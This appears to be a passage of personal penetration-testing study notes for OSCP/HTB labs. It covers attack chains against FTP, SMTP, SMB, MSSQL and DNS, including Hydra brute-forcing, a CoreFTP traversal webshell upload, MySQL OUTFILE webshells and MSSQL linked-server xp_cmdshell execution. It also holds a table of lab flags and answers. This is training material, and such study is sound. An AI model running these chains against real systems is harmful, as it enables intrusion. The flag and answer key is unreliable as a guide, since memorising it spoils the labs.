> 🔍 If Hydra finishes quickly with no valid result on a service that should be vulnerable, try `-t 1` before assuming the wordlist is wrong. Rate-limiting looks identical to wrong credentials from Hydra's perspective.

#### Tags: #Hydra #FTP #ThreadThrottle #RateLimit #Module6

---

### 6.8.8 HTB Skills Assessment Chains

**Easy Chain (CS.11):** Windows host, FTP/SMTP/HTTP/CoreFTP HTTPS.

```
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t TARGET_IP
→ fiona@inlanefreight.htb valid
→ hydra -l fiona -P rockyou.txt ftp://TARGET_IP -u -t 1 → fiona:987654321
→ ftp TARGET_IP → get docs.txt WebServersInfo.txt
→ WebServersInfo.txt: Apache at C:\xampp\htdocs\, CoreFTP HTTPS on 443
→ searchsploit CoreFTP → CVE-2022-22836 (50652.txt)
→ curl PUT traversal → PHP webshell in htdocs (see 6.8.1)
→ flag: HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}

Alternative: mysql -u fiona -p987654321 -h TARGET_IP
→ show variables like "secure_file_priv"; → empty (unrestricted)
→ SELECT "<?php...?>" INTO OUTFILE 'C:/xampp/htdocs/shell.php';
```

**Medium Chain (CS.12):** Linux host, DNS/SMB/FTP on non-standard port.

```
dig AXFR inlanefreight.htb @TARGET_IP
→ int-ftp.inlanefreight.htb resolves to 127.0.0.1 (same host)
→ echo "TARGET_IP int-ftp.inlanefreight.htb" >> /etc/hosts
→ nmap -p- int-ftp.inlanefreight.htb → port 30021 ProFTPD
→ ftp int-ftp.inlanefreight.htb 30021 (anonymous login)
→ get mynotes.txt (8 candidate passwords)
→ hydra -l simon -P mynotes.txt pop3://TARGET_IP → simon:8Ns8j1b!23hs4921smHzwn
→ nc -nv TARGET_IP 110 → user simon → list → retr 1 → SSH private key in body
→ echo 'KEY' | sed 's/ /\n/g' > id_rsa && chmod 600 id_rsa
→ ssh -i id_rsa simon@TARGET_IP → flag: HTB{1qay2wsx3EDC4rfv_M3D1UM}
```

> 🔍 DNS zone transfers often reveal internal vHosts pointing to 127.0.0.1 (same machine). After adding to `/etc/hosts`, always run a full-port nmap scan on the vHost hostname to find non-standard ports.

**Hard Chain (CS.13):** Windows host, SMB/MSSQL/RDP.

```
smbclient -N -L TARGET_IP → Home share accessible
smbclient -N //TARGET_IP/Home → IT\ HR\ OPS\ Projects\
cd IT\Fiona\ → get creds.txt | cd IT\John\ → mget * (information.txt/notes.txt/secrets.txt)
→ crackmapexec smb TARGET_IP -u fiona -p passwords.txt → fiona:48Ns72!bns74@S84NNNSl (Pwn3d!)
→ xfreerdp /v:TARGET_IP /u:fiona /p:'48Ns72!bns74@S84NNNSl'
→ PowerShell: SQLCMD.EXE -S WIN-HARD (Windows Auth)
→ sys.server_permissions WHERE IMPERSONATE → john can be impersonated
→ EXECUTE AS LOGIN = 'john'
→ SELECT srvname FROM sysservers → LOCAL.TEST.LINKED.SRV
→ EXECUTE('IS_SRVROLEMEMBER(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV] → 1
→ EXECUTE('sp_configure xp_cmdshell; RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
→ EXECUTE('xp_cmdshell ''more flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
→ flag: HTB{46u$!n9_l!nk3d_$3rv3r$}
```

---

### 6.8.9 Q&A Answers

| Section | Q | Answer |
|---|---|---|
| Attacking FTP Q1 | FTP service port? | **2121** |
| Attacking FTP Q2 | Available FTP username? | **robin** |
| Attacking FTP Q3 | flag.txt via SSH as robin? | `HTB{ATT4CK1NG_F7P_53RV1C3}` |
| Attacking SMB Q1 | Share with READ and WRITE permissions? | **GGJ** |
| Attacking SMB Q2 | Password for "jason"? | `34c8zuNBo91!@28Bszh` |
| Attacking SMB Q3 | flag.txt via SSH as jason? | `HTB{SMB_4TT4CKS_2349872359}` |
| Attacking SQL Databases Q1 | Password for "mssqlsvc"? | **princess1** |
| Attacking SQL Databases Q2 | Flag in "flagDB"? | `HTB{!l0v3#4$#!n9_4nd_r3$p0nd3r}` |
| Attacking RDP Q1 | File on Desktop? | **pentest-notes.txt** |
| Attacking RDP Q2 | Registry key for PtH over RDP? | **DisableRestrictedAdmin** |
| Attacking RDP Q3 | flag.txt via PtH? | `HTB{RDP_P4$$_Th3_H4$#}` |
| Attacking DNS Q1 | Flag in DNS TXT record? | `HTB{LUIHNFAS2871SJK1259991}` |
| Attacking Email Q1 | Available SMTP username? | **marlin** |
| Attacking Email Q2 | Flag in email inbox? | `HTB{w34k_p4$$w0rd}` |
| Easy Assessment Q1 | flag.txt on Administrator Desktop? | `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}` |
| Medium Assessment Q1 | flag.txt via SSH as simon? | `HTB{1qay2wsx3EDC4rfv_M3D1UM}` |
| Hard Assessment Q1 | File belonging to user "simon"? | **random.txt** |
| Hard Assessment Q2 | Password for Fiona? | `48Ns72!bns74@S84NNNSl` |
| Hard Assessment Q3 | Other user to compromise for admin? | **john** |
| Hard Assessment Q4 | flag.txt on Administrator Desktop (linked server)? | `HTB{46u$!n9_l!nk3d_$3rv3r$}` |

---

## **Outstanding Labs Checklist**

- [x] **6.2.4 GitHub OSINT**: completed
- [x] **6.3.1 LLM-Aided Enumeration (ChatGPT)**: completed
- [x] **6.4.1 DNS Enumeration**: completed
- [x] **6.4.2 Port Scanning Theory (Netcat)**: completed
- [x] **6.4.3 Nmap Port Scanning**: completed (Offsec content). HTB supplementary added 2026-08-17: TTL OS ID table, --open flag, -p- shorthand, grep/wc counting, -oX XML output + xsltproc HTML, nc direct banner grabbing, NSE discovery category + robots.txt, hostname extraction from -p445 -sV
- [x] **6.4.3b Nmap Firewall/IDS Evasion**: completed (HTB supplementary) -- --disable-arp-ping, -Pn, -g 53 source port spoof, nc -p53 bypass, dns-nsid on UDP 53, --max-retries
- [x] **6.4.4 SMB Enumeration**: completed
- [x] **6.4.5 SMTP Enumeration**: completed
- [x] **6.4.6 SNMP Enumeration**: completed
- [x] **6.4.7 FTP Enumeration**: completed (HTB supplementary, merged from Footprinting)
- [x] **6.4.8 NFS Enumeration**: completed (HTB supplementary, merged from Footprinting)
- [x] **6.4.9 IMAP/POP3 Enumeration**: completed (HTB supplementary, merged from Footprinting)
- [x] **6.4.10 MySQL Remote Enumeration**: completed (HTB supplementary, merged from Footprinting)
- [x] **6.4.11 MSSQL Enumeration**: completed (HTB supplementary, merged from Footprinting)
- [x] **6.4.12 Oracle TNS Enumeration**: completed (HTB supplementary, merged from Footprinting)
- [x] **6.4.13 IPMI Enumeration**: completed (HTB supplementary, merged from Footprinting)
- [x] **6.4.14 Service Enumeration Decision Flow**: completed
- [x] **6.6 Web Reconnaissance (6.6.1-6.6.7)**: completed (HTB supplementary, merged from Information Gathering - Web Edition), full skills assessment answered

- [x] **6.8.1-6.8.9 HTB Attacking Common Services (CS.1-CS.14)**: fully merged (CoreFTP CVE-2022-22836, MSSQL UNC injection + impersonation + linked servers, DNS subbrute, Hydra SMTP/POP3, SMB enum4linux + null session, FTP throttle, Easy/Medium/Hard skills assessment chains, all 20 Q&A answers)

**All labs for Module 6's own Offsec and HTB skills-assessment content are complete.** ✅ Three HTB Footprinting hands-on labs (Easy/Medium/Hard, service-enumeration credential chains) remain genuinely pending, VM spin-up required, see the 🚩 callouts in 6.4.14. HTB Attacking Common Services labs are HTB spawnable targets (no Offsec VM required).

---

## 🎯 Related Boxes to Practice

Real HTB machines where enumeration itself (not just exploitation) is the main challenge, verified against actual writeups, not guessed.

- **[FriendZone](https://0xdf.gitlab.io/2019/07/13/htb-friendzone.html)** (HTB, Linux, Easy): SMB share enum reveals credentials, then a DNS zone transfer (AXFR) uncovers hidden vhosts holding the actual admin panel/LFI foothold. Ties directly into [[06. Information Gathering#6.4.1. DNS Enumeration|6.4.1]], [[06. Information Gathering#6.4.4. SMB Enumeration|6.4.4]], and [[06. Information Gathering#6.6.1. Virtual Host (vHost) Enumeration|6.6.1]].
- **[Trick](https://0xdf.gitlab.io/2022/10/29/htb-trick.html)** (HTB, Linux, Easy): reverse-DNS and a zone transfer expose two hidden vhosts (`preprod-payroll`, `preprod-marketing`) before any exploitation happens at all. Almost pure [[06. Information Gathering#6.4.1. DNS Enumeration|6.4.1]] and [[06. Information Gathering#6.6.1. Virtual Host (vHost) Enumeration|6.6.1]] practice.
- **[Bastion](https://sif0.medium.com/hackthebox-bastion-writeup-237c6378df18)** (HTB, Windows Server 2016, Easy): an SMB null session (no auth needed) lists a "Backups" share containing a VHD with crackable credentials inside. Classic real-world example of [[06. Information Gathering#6.4.4. SMB Enumeration|6.4.4]]'s null-session risk.
- **[SneakyMailer](https://shishirsub10.medium.com/sneakymailer-hackthebox-witeup-86f7ae072c5)** (HTB, Linux, Medium): SMTP `VRFY`-based user enumeration combined with vhost fuzzing drives the entire attack chain. Good practical [[06. Information Gathering#6.4.5. SMTP Enumeration|6.4.5]] example even though it's rated above Easy.
- **[Archetype](https://0xdf.gitlab.io/2021/06/12/htb-archetype.html)** (HTB Starting Point, Windows): SMB reveals credentials, MSSQL with `xp_cmdshell` gives code execution. Directly maps to [[06. Information Gathering#6.4.4. SMB Enumeration|6.4.4]] + [[06. Information Gathering#6.4.11. MSSQL Enumeration|6.4.11]].
- **[Squashed](https://0xdf.gitlab.io/2023/01/06/htb-squashed.html)** (HTB, Linux, Easy): NFS with `no_root_squash` for file write leading to RCE. Maps to [[06. Information Gathering#6.4.8. NFS Enumeration|6.4.8]] and [[18. Linux Privilege Escalation#18.5.9|18.5.9]].
- **[Forge](https://0xdf.gitlab.io/2021/12/18/htb-forge.html)** (HTB, Linux, Medium): vhost enumeration reveals an internal admin portal. [[06. Information Gathering#6.6.1. Virtual Host (vHost) Enumeration|6.6.1]] + [[06. Information Gathering#6.6.2. Web Server Fingerprinting|6.6.2]] combo.
- **[Devvortex](https://0xdf.gitlab.io/2024/03/30/htb-devvortex.html)** (HTB, Linux, Easy): vhost enum finds a Joomla subdomain, Joomla version fingerprinting leads directly to an authenticated RCE. Direct [[06. Information Gathering#6.6.1. Virtual Host (vHost) Enumeration|6.6.1]] + [[06. Information Gathering#6.6.2. Web Server Fingerprinting|6.6.2]] (Joomla detection) combo.

> Note: IPMI and Oracle TNS boxes are common in enterprise/PG Practice but rarely appear in retired public HTB boxes due to specialised service requirements, so no specific HTB named boxes for 6.4.12/6.4.13 here.

#### Tags: #RelatedBoxes #HTBPractice #Module6

---

## **Quick Reference Tags for Future Use**
- #OSINT #Whois #GoogleHacking #Netcraft #Shodan
- #DNS #DNSEnumeration #Nmap #NSE #PortScanning
- #SMB #NetBIOS #SMTP #VRFY #SNMP #MIBTree
- #FTP #NFS #IMAP #POP3 #MySQL #MSSQL #OracleTNS #IPMI #odat #RAKP
- #VirtualHosts #gobuster #Fingerprinting #nikto #Wappalyzer #WebCrawling #scrapy #WaybackMachine #robots
- #LOLBAS #LivingOffTheLand #PowerShell
- #LLM #ChatGPT #WordlistGeneration
- #OSCP #Module6 #Recon #Enumeration
